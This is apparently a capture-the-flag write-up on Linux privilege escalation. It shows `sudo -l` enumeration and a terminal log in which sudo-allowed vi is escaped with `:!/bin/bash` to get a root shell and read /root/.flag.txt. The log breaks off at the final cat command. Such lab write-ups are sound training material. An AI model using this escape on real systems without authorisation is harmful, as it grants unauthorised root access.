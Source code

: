 # Lesson  
- Enumeration  
  - `sudo -l`
- Privilege Escalation  
  - use Editor  
    - vi/vim  
        e.g.
        ```
        :!pwd
        ```

# Memo
```zsh
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$   
picoplayer@challenge:~$ sudo /usr/bin/vi test

...

:!/bin/bash
...

root@challenge:/home/picoplayer# cd /root
root@challenge:~# 
root@challenge:~# pwd
/root
root@challenge:~# 
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4 21:32 .
drwxr-xr-x 1 root root   51 Dec 28 16:03 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:32 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# 
root@challenge:~# cat .flag.txt
```